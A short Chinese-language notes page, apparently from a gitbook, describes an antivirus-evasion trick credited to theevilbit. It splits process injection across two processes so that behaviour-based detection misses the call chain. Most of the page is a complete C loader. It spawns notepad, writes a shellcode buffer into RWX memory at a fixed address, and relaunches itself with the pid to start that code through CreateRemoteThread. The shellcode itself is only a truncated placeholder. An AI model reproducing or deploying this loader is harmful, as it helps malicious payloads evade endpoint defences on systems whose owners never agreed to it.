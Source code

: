 # Divide and Conquer

##  简介

看到了一种比较有意思的手法，现在的杀软会关注函数的执行链， [theevilbit](https://gist.github.com/theevilbit)公开了一种通过不同进程分离执行API，绕过基于行为的AV检测。

## 流程

1. 创建傀儡进程
2. 向傀儡进程写入payload
3. 创建同文件进程传入pid
4. 通过pid打开傀儡句柄
5. 创建远程线程

## 代码

```text


#include <stdio.h>
#include <windows.h>
unsigned char shellcode[] =
"\xfc78\x00";

int main(int argc, char* argv[]) {

    if (argv[1]==NULL)
    {
        STARTUPINFOA si = { 0 };
        si.cb = sizeof(si);
        PROCESS_INFORMATION pi = { 0 };

        CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
        VirtualAllocEx(pi.hProcess, (PVOID)0x0000480000000000, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        WriteProcessMemory(pi.hProcess, (PVOID)0x0000480000000000, shellcode, sizeof(shellcode), NULL);

        char cmd[MAX_PATH] = {0};
        wsprintfA(cmd, "%s %d", argv[0], pi.dwProcessId);

        CreateProcessA(NULL, (LPSTR)cmd, NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
    }
    else
    {
        HANDLE hProcess =  OpenProcess(PROCESS_ALL_ACCESS, NULL, atoi(argv[1]));
        CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)0x0000480000000000, 0, 0, 0);
    }
    
    
    return 0;
}

```

![](../.gitbook/assets/image%20%28241%29.png)

## 优化

再传入ppid\(略略略\)。

